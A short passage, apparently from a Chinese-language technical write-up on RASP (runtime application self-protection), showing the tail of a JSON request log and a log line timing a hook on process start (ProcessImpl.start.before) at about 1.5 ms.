vlHJGlmcxhxP2EnjinqtlPq78GoC9YMRRjUr58UyWFghnQe/awfvY1awF3QVoI9pk8xrP1DjgYRn35M/WmydP4bY4WLuF7Qzvg9COk/yV",
            "version":0
        }
    ],
    "remoteAddr":"0:0:0:0:0:0:0:1"
}
```
RASP的hook逻辑耗时
``` 
2021-09-12 11:45:03 INFO  method: ProcessImpl.start.before, 耗时: 1.529651 ms
```
